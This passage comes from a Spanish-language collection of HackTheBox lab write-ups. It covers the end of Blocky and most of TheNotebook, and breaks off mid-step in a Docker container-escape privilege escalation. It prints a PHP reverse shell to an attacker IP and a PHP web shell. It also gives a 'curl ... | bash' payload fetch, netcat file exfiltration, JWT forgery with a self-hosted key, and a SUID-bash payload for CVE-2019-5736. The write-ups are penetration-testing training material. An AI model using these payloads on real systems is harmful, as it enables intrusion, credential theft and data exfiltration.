\end{Highlighting}
\end{Shaded}

Aqui ya podemos ver cosas como un usuario root y una contraseña para un sqlUser.

Aqui vamos a la url \texttt{http://10.10.10.37/phpmyadmin/} y probamos. Ya podemos entrar en el panel de configuracion
de la base de datos.

Vemos la base de datos de wordpress y le cambiamos la contraseña al usuario NOTCH. Lo unico seria seleccionnar la Funcion
MD5 al lado de la contraseña.

\begin{figure}

\includegraphics[width=0.9\linewidth]{images/phpmyadmin-notch} \caption{Cambio de contraseña para el usuario notch}\label{fig:unnamed-chunk-16}
\end{figure}

Intentamos conectar al wordpress con el usuario NOTCH y su nueva contraseña y pa dentro.

\hypertarget{editar-el-404-template-de-wordpress}{%
\subsection*{Editar el 404 Template de Wordpress}\label{editar-el-404-template-de-wordpress}}
\addcontentsline{toc}{subsection}{Editar el 404 Template de Wordpress}

Cada vez que se puede entrar en el panel de administracion de wordpress siempre hacemos lo mismo.

Pinchamos en \texttt{Appearance\ \textgreater{}\ Editor} y retocamos el fichero 404 Template.

\begin{quote}
{[} ! {]} Nota: Si este fichero no existe, justo encima, se puede \textbf{Select theme to edit} y buscar otro tema.
\end{quote}

\hypertarget{explotacion-de-vulnerabilidad-ganando-acceso-7}{%
\section*{Explotacion de vulnerabilidad \& Ganando Acceso}\label{explotacion-de-vulnerabilidad-ganando-acceso-7}}
\addcontentsline{toc}{section}{Explotacion de vulnerabilidad \& Ganando Acceso}

\hypertarget{crear-una-reverse-shell-desde-la-404-template}{%
\subsection*{Crear una reverse shell desde la 404 Template}\label{crear-una-reverse-shell-desde-la-404-template}}
\addcontentsline{toc}{subsection}{Crear una reverse shell desde la 404 Template}

Nos ponemos en escucha con el puerto 443.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}

Editamos el fichero 404 Template con una reverse shell en php

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{<?php}
    \FunctionTok{system}\OtherTok{(}\StringTok{"bash -c 'bash -i >& /dev/tcp/10.10.14.7/443 0>&1'"}\OtherTok{);}
\KeywordTok{?>}
\end{Highlighting}
\end{Shaded}

ya podemos ir al url \texttt{http://10.10.10.37/?p=404.php} y pa dentro

\hypertarget{tratamiento-de-la-tty-6}{%
\subsection*{Tratamiento de la TTY}\label{tratamiento-de-la-tty-6}}
\addcontentsline{toc}{subsection}{Tratamiento de la TTY}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{script}\NormalTok{ /dev/null -c bash}
\NormalTok{^}\ExtensionTok{Z}
\FunctionTok{stty}\NormalTok{ raw -echo}\KeywordTok{;} \BuiltInTok{fg}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ reset}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ xterm}
\BuiltInTok{export} \VariableTok{TERM=}\NormalTok{xterm}
\BuiltInTok{export} \VariableTok{SHELL=}\NormalTok{bash}

\FunctionTok{stty}\NormalTok{ -a}

\FunctionTok{stty}\NormalTok{ rows }\OperatorTok{<}\NormalTok{rownb}\OperatorTok{>}\NormalTok{ columns }\OperatorTok{<}\NormalTok{colnb}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}

\hypertarget{user-pivoting-al-usuario-notch}{%
\subsection*{User Pivoting al usuario notch}\label{user-pivoting-al-usuario-notch}}
\addcontentsline{toc}{subsection}{User Pivoting al usuario notch}

Miramos si hay reutilisacion de contraseñas

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{su}\NormalTok{ notch }
\end{Highlighting}
\end{Shaded}

Y con la contraseña encontrada en el ficher \texttt{BlockyCore.class} funciona. Y ya podemos ver la flag.

\hypertarget{escalada-de-privilegios-6}{%
\section*{Escalada de privilegios}\label{escalada-de-privilegios-6}}
\addcontentsline{toc}{section}{Escalada de privilegios}

\hypertarget{rootear-la-maquina-3}{%
\subsection*{Rootear la maquina}\label{rootear-la-maquina-3}}
\addcontentsline{toc}{subsection}{Rootear la maquina}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{sudo}\NormalTok{ -l}
\CommentTok{#Output}
\KeywordTok{(}\ExtensionTok{ALL}\NormalTok{ : ALL}\KeywordTok{)} \ExtensionTok{ALL}
\end{Highlighting}
\end{Shaded}

Vemos que el usuario notch puede efectuar cualquier comando como qualquier usuario ;)

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{sudo}\NormalTok{ su}
\FunctionTok{whoami}

\ExtensionTok{root}
\end{Highlighting}
\end{Shaded}

Ya esta ;)

\hypertarget{thenotebook}{%
\chapter*{TheNotebook}\label{thenotebook}}
\addcontentsline{toc}{chapter}{TheNotebook}

\hypertarget{introduccion-8}{%
\section*{Introduccion}\label{introduccion-8}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia 31/07/2021 se llama TheNotebook
.

El replay del live se puede ver aqui

\href{https://www.youtube.com/watch?v=tEyTJYDbN3s}{\includegraphics{https://img.youtube.com/vi/tEyTJYDbN3s/0.jpg}}

No olvideis dejar un like al video y un comentario\ldots{}

\hypertarget{enumeracion-8}{%
\section*{Enumeracion}\label{enumeracion-8}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-8}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-8}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-8}{%
\subsubsection*{Ping}\label{ping-8}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.230}
\end{Highlighting}
\end{Shaded}

ttl: 63 -\textgreater{} maquina linux.
Recuerda que en cuanto a ttl respecta 64 = linux y 128 = windows.
Pero como estamos en hackthebox hay un nodo intermediario que hace que el ttl disminuya una unidad

\hypertarget{nmap-8}{%
\subsubsection*{Nmap}\label{nmap-8}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.230 -oG allPorts }
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p22,80 10.10.10.230 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
22 & ssh & conexion directa & usuario y contraseña\tabularnewline
80 & http & Analizis de la web y Fuzzing &\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{analizando-la-web-2}{%
\subsection*{Analizando la web}\label{analizando-la-web-2}}
\addcontentsline{toc}{subsection}{Analizando la web}

\hypertarget{whatweb-5}{%
\subsubsection*{Whatweb}\label{whatweb-5}}
\addcontentsline{toc}{subsubsection}{Whatweb}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{whatweb}\NormalTok{ http://10.10.10.230}
\end{Highlighting}
\end{Shaded}

Nada muy interesante

\hypertarget{http-enum-2}{%
\subsubsection*{http-enum}\label{http-enum-2}}
\addcontentsline{toc}{subsubsection}{http-enum}

Lanzamos un web scan con nmap.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ --script http-enum -p80 10.10.10.230 -oN webScan}
\end{Highlighting}
\end{Shaded}

Ya nos detecta un \texttt{/phpmyadmin/} y ficheros de wordpress

\hypertarget{chequear-la-web-por-puerto-80}{%
\subsubsection*{Chequear la web por puerto 80}\label{chequear-la-web-por-puerto-80}}
\addcontentsline{toc}{subsubsection}{Chequear la web por puerto 80}

Con firefox navigamos en la web para ver lo que es.

\begin{itemize}
\tightlist
\item
  wappalizer nos dice que hay nginx ubuntu bootstrap
\item
  hay un register y un login pero no vemos extensiones php
\item
  Si pinchamos el login intentamos ponerle un admin admin y nos dice que la contraseña es incorrecta -\textgreater{} usuario admin existe
\item
  Si ponemos administrator admin nos dice que el usuario es incorrecto
\end{itemize}

Vemos que hay formas de enumeracion con este login

\hypertarget{fuzzing-con-wfuzz-1}{%
\subsubsection*{Fuzzing con WFuzz}\label{fuzzing-con-wfuzz-1}}
\addcontentsline{toc}{subsubsection}{Fuzzing con WFuzz}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{wfuzz}\NormalTok{ -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.37/WFUZZ}
\end{Highlighting}
\end{Shaded}

Encontramos un ruta plugins que no suele ser normal porque en wordpress los plugins suelen estar en \texttt{/wp-content/plugins} y no
en \texttt{/plugins} directamente

Aqui encontramos dos ficheros \texttt{.jar}. Los descargamos en nuestra maquina de atacante.

\hypertarget{evaluacion-de-vulnerabilidades-8}{%
\section*{Evaluacion de vulnerabilidades}\label{evaluacion-de-vulnerabilidades-8}}
\addcontentsline{toc}{section}{Evaluacion de vulnerabilidades}

\hypertarget{ataque-de-tipo-intruder-con-burpsuite}{%
\subsection*{Ataque de tipo intruder con BurpSuite}\label{ataque-de-tipo-intruder-con-burpsuite}}
\addcontentsline{toc}{subsection}{Ataque de tipo intruder con BurpSuite}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Creamos un diccionario basado en el rockyou.txt

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ content}
\FunctionTok{head}\NormalTok{ -n 10000 /usr/share/wordlists/rockyou.txt }\OperatorTok{>}\NormalTok{ passwords}
\end{Highlighting}
\end{Shaded}
\item
  Desde burpsuite configuramos el scope hacia la url \url{http://10.10.10.230}
\item
  En firefox le ponemos el foxyproxy para el burpsuite
\item
  Lanzamos una peticion desde login con admin admin y la interceptamos con el burpsuite
\item
  En burpsuite le damos al \texttt{Ctrl+i} para enviarlo al intruder
\item
  Configuramos el attacker \textbf{Sniper} dando la posicion a la palabra password

  \begin{figure}
   
\includegraphics[width=0.9\linewidth]{images/notebook-sniper-config} \caption{notebook sniper config}\label{fig:unnamed-chunk-17}
   \end{figure}
\item
  Cargamos el diccionario creado a la payload list y le quitamos el Payload encoding

  \begin{figure}
   
\includegraphics[width=0.9\linewidth]{images/notebook-sniper-list} \caption{notebook sniper payload list}\label{fig:unnamed-chunk-18}
   \end{figure}
\item
  En Options creamos un regexp para saber cuando la contraseña es valida

  \begin{itemize}
  \item
    en Grep - Extract damos a ADD
  \item
    le damos a Fetch response

    \begin{figure}
      
\includegraphics[width=0.9\linewidth]{images/notebook-fetch-response} \caption{notebook sniper fetch response}\label{fig:unnamed-chunk-19}
      \end{figure}
  \end{itemize}
\item
  Le damos a start attack
\end{enumerate}

No encontramos nada.

\hypertarget{register-un-nuevo-usuario}{%
\subsection*{Register un nuevo usuario}\label{register-un-nuevo-usuario}}
\addcontentsline{toc}{subsection}{Register un nuevo usuario}

Como no a sido posible reventar la mamona con un password brute force, utilizamos la web para ver si encontramos una vulnerabilidad.
Nos creamos un usuario y vemos que podemos añadir notas como un blog. Una de las possibilidades seria tratar de hacer fuzzing pero en este
caso necesitariamos la cookie de session.Analizando un poco vemos que la cookie de session esta almazenada por un JWT.

Antes de tratar de fuzzear, mirramos si se puede tratar de reventar el JWT Token.

Copiamos el token y la auditamos en \href{https://jwt.io}{jwt.io}

Vemos que hay una data que se llama \emph{admin\_cap} y que esta setteada a 0. Pero si tratamos de cambiar a 1 nos invalida el token y vemos que es porque
necesitamos un key (private o public) que parece que sea en el \texttt{http://localhost:7070/privKey.key} de la maquina victima. Posiblemente podriamos Hijackear
la url donde encuentra esta Key por una creado por nosotros.

\hypertarget{jwt-hijacking}{%
\subsection*{JWT Hijacking}\label{jwt-hijacking}}
\addcontentsline{toc}{subsection}{JWT Hijacking}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Nos creamos un par de claves con \textbf{openssl}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{openssl}\NormalTok{ genrsa -out privKey.key 2048}
\end{Highlighting}
\end{Shaded}
\item
  Introducimos la key en la web de JWT.io

  \begin{figure}
   
\includegraphics[width=0.9\linewidth]{images/jwt-hijacking} \caption{jwt hijacking}\label{fig:unnamed-chunk-20}
   \end{figure}
\item
  Nos entablamos un servidor web para que pueda cojer la key

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python3}\NormalTok{ -m http.server 7070}
\end{Highlighting}
\end{Shaded}
\item
  Copiamos el JWT token en firefox

  \begin{figure}
   
\includegraphics[width=0.9\linewidth]{images/jwt-firefox} \caption{jwt firefox hijack}\label{fig:unnamed-chunk-21}
   \end{figure}
\end{enumerate}

Ya lanzando la web otra vez y vemos que un Admin Panel a salido y en el cual se puede ver notas y uploadear ficheros.

\hypertarget{analizamos-las-notas}{%
\subsection*{Analizamos las notas}\label{analizamos-las-notas}}
\addcontentsline{toc}{subsection}{Analizamos las notas}

Analizando las notas se puede ver :

\begin{itemize}
\tightlist
\item
  Usuario admin
\item
  Usuario Noah
\item
  Ejecucion de fichero php
\end{itemize}

\hypertarget{uploadeamos-un-s4vishell.php}{%
\subsection*{Uploadeamos un s4vishell.php}\label{uploadeamos-un-s4vishell.php}}
\addcontentsline{toc}{subsection}{Uploadeamos un s4vishell.php}

Como hay un boton upload vamos a por una \texttt{s4vishell.php}

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{<?php}
    \KeywordTok{echo} \StringTok{"<pre>"}\NormalTok{ . }\FunctionTok{shell_exec}\OtherTok{(}\KeywordTok{$_REQUEST}\OtherTok{[}\StringTok{'cmd'}\OtherTok{])}\NormalTok{ . }\StringTok{"</pre>"}\OtherTok{;}
\KeywordTok{?>}
\end{Highlighting}
\end{Shaded}

Subimos el fichero y perfecto nos va y pinchando el boton view ya tenemos Remote Code Execution

\hypertarget{explotacion-de-vulnerabilidad-ganando-acceso-8}{%
\section*{Explotacion de vulnerabilidad \& Ganando Acceso}\label{explotacion-de-vulnerabilidad-ganando-acceso-8}}
\addcontentsline{toc}{section}{Explotacion de vulnerabilidad \& Ganando Acceso}

\hypertarget{crear-una-reverse-shell-desde-la-s4vishell.php-con-un-index.html}{%
\subsection*{Crear una reverse shell desde la s4vishell.php con un index.html}\label{crear-una-reverse-shell-desde-la-s4vishell.php-con-un-index.html}}
\addcontentsline{toc}{subsection}{Crear una reverse shell desde la s4vishell.php con un index.html}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Creamos un index.html

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#!/bin/bash}

\FunctionTok{bash}\NormalTok{ -i }\OperatorTok{>}\KeywordTok{&} \ExtensionTok{/dev/tcp/10.10.14.8/443} \OperatorTok{0>&1}
\end{Highlighting}
\end{Shaded}
\item
  Compartimos un servicio http por el puerto 80

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python3}\NormalTok{ -m http.server 80}
\end{Highlighting}
\end{Shaded}
\item
  Desde la s4vishell

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{http:}\CommentTok{//10.10.10.230/6a5sd4f6a5sd1f6as5dfa6sd51fa.php?cmd=curl 10.10.14.8|bash}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Ya esta

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{whoami}
\CommentTok{#Output}

\ExtensionTok{www-data}
\end{Highlighting}
\end{Shaded}

\hypertarget{tratamiento-de-la-tty-7}{%
\subsection*{Tratamiento de la TTY}\label{tratamiento-de-la-tty-7}}
\addcontentsline{toc}{subsection}{Tratamiento de la TTY}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{script}\NormalTok{ /dev/null -c bash}
\NormalTok{^}\ExtensionTok{Z}
\FunctionTok{stty}\NormalTok{ raw -echo}\KeywordTok{;} \BuiltInTok{fg}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ reset}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ xterm}
\BuiltInTok{export} \VariableTok{TERM=}\NormalTok{xterm}
\BuiltInTok{export} \VariableTok{SHELL=}\NormalTok{bash}

\FunctionTok{stty}\NormalTok{ -a}

\FunctionTok{stty}\NormalTok{ rows }\OperatorTok{<}\NormalTok{rownb}\OperatorTok{>}\NormalTok{ columns }\OperatorTok{<}\NormalTok{colnb}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}

\hypertarget{investigamos-la-maquina-4}{%
\subsection*{Investigamos la maquina}\label{investigamos-la-maquina-4}}
\addcontentsline{toc}{subsection}{Investigamos la maquina}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ls}\NormalTok{ -l}
\BuiltInTok{cd}\NormalTok{ /home}
\FunctionTok{ls}\NormalTok{ -l}
\BuiltInTok{cd}\NormalTok{ noah/}
\FunctionTok{cat}\NormalTok{ user.txt}
\end{Highlighting}
\end{Shaded}

Permission denied. Nos tenemos que pasar al usuario Noah

\hypertarget{user-pivoting-al-usuario-noah}{%
\subsection*{User Pivoting al usuario noah}\label{user-pivoting-al-usuario-noah}}
\addcontentsline{toc}{subsection}{User Pivoting al usuario noah}

\hypertarget{analizamos-el-systema}{%
\subsubsection*{Analizamos el systema}\label{analizamos-el-systema}}
\addcontentsline{toc}{subsubsection}{Analizamos el systema}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{id}
\FunctionTok{sudo}\NormalTok{ -l}
\BuiltInTok{cd}\NormalTok{ /}
\FunctionTok{find}\NormalTok{ \textbackslash{}-perm -4000 }\OperatorTok{2>}\NormalTok{/dev/null}
\FunctionTok{cat}\NormalTok{ /etc/crontab}
\FunctionTok{ls}\NormalTok{ -l /var/spool/cron}
\end{Highlighting}
\end{Shaded}

No vemos nada. Tendremos que pasar por el sistema web

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /var}
\FunctionTok{find}\NormalTok{ \textbackslash{}-type f }\OperatorTok{2>}\NormalTok{/dev/null}
\FunctionTok{find}\NormalTok{ \textbackslash{}-type f }\OperatorTok{2>}\NormalTok{/dev/null }\KeywordTok{|} \FunctionTok{grep} \StringTok{"config"}
\FunctionTok{find}\NormalTok{ \textbackslash{}-type f }\OperatorTok{2>}\NormalTok{/dev/null }\KeywordTok{|} \FunctionTok{grep} \StringTok{"config"} \KeywordTok{|} \FunctionTok{xargs}\NormalTok{ grep }\StringTok{"password"} \OperatorTok{2>}\NormalTok{/dev/null}
\FunctionTok{find}\NormalTok{ \textbackslash{}-type f }\OperatorTok{2>}\NormalTok{/dev/null }\KeywordTok{|} \FunctionTok{grep} \StringTok{"config"} \KeywordTok{|} \FunctionTok{xargs}\NormalTok{ grep -E }\StringTok{"username|password|key|database"} \OperatorTok{2>}\NormalTok{/dev/null}
\FunctionTok{find}\NormalTok{ \textbackslash{}-type f }\OperatorTok{2>}\NormalTok{/dev/null }\KeywordTok{|} \FunctionTok{grep} \StringTok{"config"} \KeywordTok{|} \FunctionTok{xargs}\NormalTok{ grep -E }\StringTok{"username|password|key|database"} \OperatorTok{2>}\NormalTok{/dev/null }\KeywordTok{|} \FunctionTok{grep}\NormalTok{ -v }\StringTok{"debconf"}
\FunctionTok{find}\NormalTok{ \textbackslash{}-type f }\OperatorTok{2>}\NormalTok{/dev/null }\KeywordTok{|} \FunctionTok{grep} \StringTok{"config"} \KeywordTok{|} \FunctionTok{xargs}\NormalTok{ grep -E }\StringTok{"username|password|key|database"} \OperatorTok{2>}\NormalTok{/dev/null }\KeywordTok{|} \FunctionTok{grep}\NormalTok{ -v -E }\StringTok{"debconf|keyboard"}
\end{Highlighting}
\end{Shaded}

Tampoco vemos algo aqui.

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /var}
\FunctionTok{find}\NormalTok{ \textbackslash{}-type f }\OperatorTok{2>}\NormalTok{/dev/null }\KeywordTok{|} \FunctionTok{grep}\NormalTok{ -v -E }\StringTok{"lib|cache"}
\end{Highlighting}
\end{Shaded}

Aqui vemos algo que podria ser interesante.

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /var/backups}
\FunctionTok{ls}\NormalTok{ -l}
\end{Highlighting}
\end{Shaded}

Vemos un \texttt{home.tar.gz} y tenemos derecho de visualizar

\hypertarget{nos-enviamos-el-home.tar.gz}{%
\subsubsection*{Nos enviamos el home.tar.gz}\label{nos-enviamos-el-home.tar.gz}}
\addcontentsline{toc}{subsubsection}{Nos enviamos el home.tar.gz}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  En la maquina de atacante

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443 }\OperatorTok{>}\NormalTok{ home.tar.gz}
\end{Highlighting}
\end{Shaded}
\item
  En la maquina victima

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ 10.10.14.8 443 }\OperatorTok{<}\NormalTok{ home.tar.gz}
\end{Highlighting}
\end{Shaded}
\item
  Hacemos un md5sum para ver la integridad de la data
\item
  Analizamos el fichero

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{7z}\NormalTok{ l home.tar.gz}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Ya podemos ver que es un comprimido del directorio home del usuario Noah con authorized\_key y una id\_rsa del proprio usuario

\hypertarget{conexion-por-ssh}{%
\subsection*{Conexion por ssh}\label{conexion-por-ssh}}
\addcontentsline{toc}{subsection}{Conexion por ssh}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{chmod}\NormalTok{ 600 id_rsa}
\FunctionTok{ssh}\NormalTok{ -i id_rsa noah@10.10.10.230}
\end{Highlighting}
\end{Shaded}

Ya estamos a dentro y podemos ver la flag

\hypertarget{escalada-de-privilegios-7}{%
\section*{Escalada de Privilegios}\label{escalada-de-privilegios-7}}
\addcontentsline{toc}{section}{Escalada de Privilegios}

\hypertarget{rootear-la-maquina-4}{%
\subsection*{Rootear la maquina}\label{rootear-la-maquina-4}}
\addcontentsline{toc}{subsection}{Rootear la maquina}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{id}
\FunctionTok{sudo}\NormalTok{ -l}
\CommentTok{#Output}

\KeywordTok{(}\ExtensionTok{ALL}\KeywordTok{)} \ExtensionTok{NOPASSWD}\NormalTok{: /usr/bin/docker exec -it webapp-dev01*}
\end{Highlighting}
\end{Shaded}

Investigamos el container webapp-dev01 con docker pero no encontramos nada

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{docker}\NormalTok{ --version}
\CommentTok{#Output}

\ExtensionTok{Docker}\NormalTok{ version 18.06.0-ce}
\end{Highlighting}
\end{Shaded}

Miramos si existe un exploit en la web \texttt{docker\ 18.06.0-ce\ exploit\ github} y encontramos algo en \href{https://github.com/Frichetten/CVE-2019-5736-PoC}{CVE-2019-5736-POC}

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ exploits}
\FunctionTok{git}\NormalTok{ clone https://github.com/Frichetten/CVE-2019-5736-PoC}
\BuiltInTok{cd}\NormalTok{ CVE-2019-5736-PoC}

\ExtensionTok{vi}\NormalTok{ main.go}
\end{Highlighting}
\end{Shaded}

Aqui mirando el \texttt{main.go} vemos un comentario que dice:

\texttt{//\ This\ is\ the\ line\ of\ shell\ commands\ that\ will\ execute\ on\ host}

La modificamos para autorgar un derecho SUID a la bash

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{var}\NormalTok{ payload = }\StringTok{"#!/bin/bash \textbackslash{}n chmod 4755 /bin/bash}
\end{Highlighting}
\end{Shaded}

Ahora lo compilamos y lo transferimos a la maquina victima

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  En la maquina de attackante buildeamos el exploit y preparamos el envio

\begin{Shaded}
\begin{Highlighting}[]
